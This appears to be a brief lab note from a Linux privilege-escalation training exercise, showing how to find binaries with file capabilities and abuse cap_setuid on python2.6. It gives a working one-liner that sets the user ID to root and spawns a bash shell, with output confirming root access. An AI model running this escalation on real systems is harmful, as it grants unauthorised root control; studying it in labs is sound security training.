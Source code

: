 #cap

- Find out the files with capabalities permission which have everything permitted. 
```
TCM@debian:~$ getcap -r / 2>/dev/null
/usr/bin/python2.6 = cap_setuid+ep
```

- Use that permitted file to get root. Since, here it is python so, python script will be used. 
```
TCM@debian:~$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@debian:~# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```